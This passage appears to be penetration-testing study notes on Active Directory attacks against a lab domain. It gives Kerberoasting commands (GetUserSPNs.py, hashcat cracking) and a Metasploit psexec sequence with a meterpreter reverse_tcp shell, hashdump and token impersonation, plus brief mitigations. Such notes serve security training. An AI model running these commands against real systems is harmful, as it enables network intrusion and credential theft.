 
* 2 - Kerborasting:
	 * Goal of [Kerberoasting](https://medium.com/@Shorty420/kerberoasting-9108477279cc) is to get TGS (Ticket Granting Service) and decrypt the server's account hash.

```
> GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
#needs username, password from domain account and its ip
#this provides us the hash, can be cracked using hashcat

> hashcat -m 13100 hash.txt rockyou.txt
#cracks the hash
```
*   Mitigations:
    - Strong passwords
    - Least privilege (service accounts should not be made domain admins)


* 3 - Token impersonation:
	* Tokens - temporary keys that allow access without using creds; can be either delegate (login, RDP) or impersonate (drive, script).

```
> msfconsole

> use exploit/windows/smb/psexec

> set smbpass Password1

> set smbuser fcastle

> set target 2
#native upload

> options

> set payload windows/x64/meterpreter/reverse_tcp

> set lhost eth0

> run
#gives meterpreter session

> hashdump

> load incognito
#metasploit module for token impersonation

> list_tokens -u
#list tokens by user

> impersonate_token marvel\\administrator
#two backslashes instead of one for character-escaping

> whoami
#test if it worked

> rev2self
#revert to old user
```
